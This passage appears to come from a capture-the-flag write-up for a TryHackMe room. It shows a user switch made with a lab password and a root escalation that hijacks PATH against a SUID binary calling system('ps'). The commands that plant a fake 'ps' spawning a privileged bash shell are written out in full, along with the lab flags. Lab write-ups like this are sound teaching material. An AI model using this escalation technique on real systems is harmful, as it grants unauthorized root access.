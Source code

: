 Flag

> THM{buffer_overflow_in_64_bit}
> 

`su kel` failed inside the non-TTY shell (“must be run from a terminal”), so I exited and ran `su` in my real terminal:

```abap
su kel
Password: kelvin_74656d7065726174757265
```

Privilege escalation to root came from a SUID binary (`exe`) in `kel`’s home directory. Its source shows a classic PATH hijack opportunity:

```abap
cat exe.c
#include <unistd.h>

void main()
{
    setuid(0);
    setgid(0);
    system("ps");
}
```

Because it’s SUID-root and calls `system("ps")` without an absolute path or PATH hardening, I put a malicious `ps` earlier in `PATH`:

```abap
cd /tmp
echo '/bin/bash -p' > ps
chmod 755 ps
export PATH=/tmp:$PATH
~/exe
```

This executed my `/tmp/ps` as root and gave me a root shell. I grabbed the final flag:

```abap
cat /root/root.txt
The flag: THM{SUID_binary_and_PATH_exploit}.
Also, thank you for your participation.

The room is built with love. DesKel out.
```

Flag

> THM{SUID_binary_and_PATH_exploit}
>
